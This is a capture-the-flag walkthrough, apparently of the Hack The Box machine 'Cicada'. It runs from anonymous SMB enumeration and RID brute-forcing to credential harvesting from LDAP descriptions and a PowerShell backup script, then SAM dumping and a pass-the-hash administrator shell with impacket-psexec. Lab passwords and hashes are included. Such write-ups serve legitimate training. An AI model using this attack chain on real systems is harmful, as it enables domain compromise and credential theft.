


### Nmap 

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-02 17:25 EDT
Nmap scan report for 10.10.11.35
Host is up (0.050s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-03 04:25:56Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (89%)
Aggressive OS guesses: Microsoft Windows Server 2022 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-11-03T04:26:41
|_  start_date: N/A
|_clock-skew: 7h00m20s

TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1   45.80 ms 10.10.14.1
2   46.19 ms 10.10.11.35

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 109.78 seconds

```

```shell 
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ smbclient -L //10.10.11.35/ -N 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        DEV             Disk      
        HR              Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.35 failed (Error 

```

Tried anonymous login on some folders, found that HR is accessible

```shell
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ smbclient -N //10.10.11.35/HR 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 08:29:09 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 13:31:48 2024

                4168447 blocks of size 4096. 57914 blocks available
smb: \> 

┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ smbclient -N //10.10.11.35/HR 
Try "help" to get a list of possible commands.
smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (4.4 KiloBytes/sec) (average 4.4 KiloBytes/sec)
smb: \> 

```

Let's analyze this file:

We have a default passowrd, but don't know the related username to use it with, so let's try to enumerate the usernames:

```shell
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ crackmapexec smb cicada.htb -u guest -p '' --rid-brute
SMB         cicada.htb      445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         cicada.htb      445    CICADA-DC        [+] cicada.htb\guest: 
SMB         cicada.htb      445    CICADA-DC        [+] Brute forcing RIDs
SMB         cicada.htb      445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         cicada.htb      445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         cicada.htb      445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         cicada.htb      445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         cicada.htb      445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         cicada.htb      445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         cicada.htb      445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         cicada.htb      445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         cicada.htb      445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         cicada.htb      445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         cicada.htb      445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         cicada.htb      445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         cicada.htb      445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         cicada.htb      445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser
```

Trying the usernames i found that the correct one was **michael.wrightson**:

```shell
ldapsearch -x -H ldap://cicada.htb -D "Cicada\\michael.wrightson" -w 'Cicada**********' -b "DC=cicada,DC=htb" "(objectClass=user)"
```

1. **`ldapsearch`**: This is the command-line utility used to search an LDAP directory.
    
2. **`-x`**: This option tells `ldapsearch` to use simple authentication instead of SASL (Simple Authentication and Security Layer).
    
3. **`-H ldap://<IP>`**: This specifies the LDAP server to connect to. You should replace `<IP>` with the actual IP address or hostname of the LDAP server you want to query.
    
4. **`-D "Cicada\\michael.wrightson"`**: This is the bind DN (Distinguished Name) used for authentication. The username is specified as `Cicada\michael.wrightson`. The backslash (`\`) is escaped with another backslash in the command line.
    
5. **`-w '<password>'`**: This specifies the password for the user `Cicada\michael.wrightson`. In your case, the password is `Cicada$M6Corpb*@Lp#nZp!8`. Be cautious about including sensitive information like passwords in command-line operations, as they can be exposed in command history or process lists.
    
6. **`-b "DC=cicada,DC=htb"`**: This defines the base DN (Distinguished Name) from which the search begins. In this case, it specifies the domain components for the `cicada.htb` domain.
    
7. **`"(objectClass=user)"`**: This is the search filter. It specifies that the command should return entries that are of the object class `user`. This is commonly used to find user accounts in an Active Directory environment.

Once got the output i saved it in a file and analyzed it:


There's a password in description field for David Orelius:

```shell
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ smbclient //cicada.htb/DEV -U david.orelious
Password for [WORKGROUP\david.orelious]:aRt$Lp#7t*VQ!3
smb: \> ls
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024

                4168447 blocks of size 4096. 49639 blocks available
smb: \> get Backup_script.ps1 
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (2.6 KiloBytes/sec) (average 2.6 KiloBytes/sec)
smb: \> 
```


Once got the file analyze its content:

```shell
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ cat Backup_script.ps1  

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp*******" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"

```

Found other credentials inside it, use them with smbclient to browse trough C$

```shell
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ smbclient  //cicada.htb/C$ -U CICADA\\emily.oscars 
Password for [CICADA\emily.oscars]:
Try "help" to get a list of possible commands.
smb: \> ls
  $Recycle.Bin                      DHS        0  Thu Mar 14 09:24:03 2024
  $WinREAgent                        DH        0  Mon Sep 23 12:16:49 2024
  Documents and Settings          DHSrn        0  Thu Mar 14 15:40:47 2024
  DumpStack.log.tmp                 AHS    12288  Sun Nov  3 12:18:49 2024
  pagefile.sys                      AHS 2097360896  Sun Nov  3 20:34:40 2024
  PerfLogs                            D        0  Thu Aug 22 14:45:54 2024
  Program Files                      DR        0  Thu Aug 29 15:32:50 2024
  Program Files (x86)                 D        0  Sat May  8 05:40:21 2021
  ProgramData                       DHn        0  Sun Nov  3 14:53:45 2024
  Recovery                         DHSn        0  Thu Mar 14 15:41:18 2024
  Shares                              D        0  Thu Mar 14 08:21:29 2024
  System Volume Information         DHS        0  Thu Mar 14 07:18:00 2024
  Temp                                D        0  Sun Nov  3 15:26:00 2024
  temporary                           D        0  Sun Nov  3 19:47:16 2024
  Users                              DR        0  Mon Aug 26 16:11:25 2024
  Windows                             D        0  Sun Nov  3 21:19:09 2024

                4168447 blocks of size 4096. 49574 blocks available
smb: \> 

```

Navigate to emily.oscars' Desktop folder and you'll find the user flag:


```shell
userflag:b1a85553011************
```

Use [evil-winrm](https://github.com/Hackplayers/evil-winrm) to log in the system

```shell
evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@L*****' -s /path/to/local/Winpeas.exe
```


With crackmapexec we can dump the SAM database:
```shell
crackmapexec smb cicada.htb -u CICADA\\emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' --sam
```

Reconnect in smbclient to get the dump, or do it trough evil-winrm shell from C:\Temp folder:

Then on your local kali use secrets-dump to extract hashes and then psexec to login as administator using the NT hash:

```shell
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 

┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ impacket-psexec cicada/Administrator@10.10.11.35 -hashes :2b87e7c93a3e8a0ea4a581937016f341
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.11.35.....
[*] Found writable share ADMIN$
[*] Uploading file XnYvdxik.exe
[*] Opening SVCManager on 10.10.11.35.....
[*] Creating service noqz on 10.10.11.35.....
[*] Starting service noqz.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2700]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> 

```


Then get root.txt in **C:\Users\Administrator\Desktop>**


```shell
rootflag:03875ddc5ded55********
```
